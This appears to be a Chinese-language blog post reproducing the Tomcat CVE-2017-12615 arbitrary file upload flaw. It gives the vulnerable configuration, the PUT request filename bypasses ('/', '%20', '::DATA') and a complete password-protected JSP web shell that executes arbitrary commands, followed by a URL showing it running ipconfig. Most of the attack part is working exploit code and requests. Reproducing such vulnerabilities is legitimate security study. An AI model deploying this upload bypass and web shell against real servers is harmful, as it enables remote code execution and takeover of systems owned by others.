

# Tomcat 任意文件上传漏洞(CVE-2017-12615) - noone52 - 博客园

> 原文：[`www.cnblogs.com/MoZiYa/p/16690280.html`](https://www.cnblogs.com/MoZiYa/p/16690280.html)

**受影响版本**
漏洞影响的 tomcat 版本为 tomcat7.0.0-7.0.81 版本
当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法，攻击者通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，可造成任意代码执行
**Tomcat 配置**
下载 tomcat7.0.0-7.0.81 版本，解压后修改 conf/web.xml 文件添加 readonly 参数，属性值为 false
默认配置文件是只读模式，这里将只读改为 false，即可允许 PUT 上传。

```
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param> 
```

**抓包**
　　开启 PUT 上传后，利用 BurpSuite 将 GET 请求改为 PUT 请求，并指定文件，这里需要注意指定文件名后需要加入“/”、"%20"或":DATA"字符，默认 Tomcat 是无法上传 jsp 和 jspx 的。
　　这里通过构造特殊后缀名，绕过了 tomcat 检测，让它用 DefaultServlet 的逻辑去处理请求，从而上传 jsp 文件。
　　
**payload**

```
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%>
<%
    if("hack".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%> 
```

响应头 201，上传成功
响应头为 403，可以看看配置文件 web.xml 中 readonly 是否写错。
响应头为 204，上传的文件已存在。

```
http://localhost:8080/test.jsp?pwd=hack&&cmd=ipconfig
即可远程执行命令 
```